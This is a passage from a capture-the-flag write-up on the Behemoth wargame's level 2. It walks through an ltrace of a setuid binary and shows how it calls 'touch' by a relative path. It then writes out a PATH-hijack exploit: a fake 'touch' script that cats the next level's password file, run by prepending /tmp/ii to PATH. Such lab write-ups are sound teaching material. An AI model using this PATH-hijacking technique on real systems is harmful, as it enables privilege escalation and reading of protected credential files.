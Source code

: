 *********
```
Okay, so we have the password. Usually, we don't need to do this so manually, there are scripts that align gdb's address. Moreover, we can try to jump in the middle of our NOP's slide in our environmental varible. 

## Behemoth2
running behemoth2 with radare2 or gdb or objdump, can give us some clues. The program tries to create a file with the name of the pid of the parent process. After that, it sleeps for a very long time and then tries to read a file. We obviously want to exploit the program before the sleep, because the time to sleep is a constant value and we cannot change it without patching the program.
Okay, let's see how the program works:
```
behemoth2@behemoth:/behemoth$ ltrace ./behemoth2
__libc_start_main(0x804856b, 1, 0xffffd774, 0x8048660 <unfinished ...>
getpid()                                                                                                                   = 19652
sprintf("touch 19652", "touch %d", 19652)                                                                                  = 11
__lxstat(3, "19652", 0xffffd640)                                                                                           = -1
unlink("19652")                                                                                                            = -1
geteuid()                                                                                                                  = 13002
geteuid()                                                                                                                  = 13002
setreuid(13002, 13002)                                                                                                     = 0
system("touch 19652"touch: cannot touch '19652': Permission denied
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                     = 256
sleep(2000^C <no return ...>
--- SIGINT (Interrupt) ---
+++ killed by SIGINT +++

```
We can see the the process id is 19652, and that file will be created with the touch command. lstat return -1 because there is no such a file (NOTICE: it's a relative path, not absolute... hmm). Unlink fails as well (return value is -1). 
Now, the vulnerability in the following file is the relative path of touch. Because we use an relative value and there is no path to touch in the $PATH environmental variable, we can abuse the program. Usually, if absolute path is not mentioned, the program will try to find it in $PATH, but here we don't have it as well:
```
behemoth2@behemoth:/behemoth$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

So we want to insert a new path to **our** controlled touch version of touch, that will spawn a shell for us. That way, when behemoth will look in $PATH the path to touch, it will jump into our code -> will print the password:
```
behemoth2@behemoth:/tmp/ii$ mkdir temp/ii
behemoth2@behemoth:/tmp/ii$ echo "cat /etc/behemoth_pass/behemoth3" > /tmp/ii/touch
behemoth2@behemoth:/tmp/ii$ chmod 777 touch (let everyone permission to run this file, who cares?)
behemoth2@behemoth:/tmp/ii$ cd /behemoth
behemoth2@behemoth:/tmp/ii$ export PATH=/tmp/ii:$PATH (now we add our path)
behemoth2@behemoth:/behemoth$ echo $PATH
/tmp/ii:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
behemoth2@behemoth:/behemoth$ ./behemoth2
*******
quit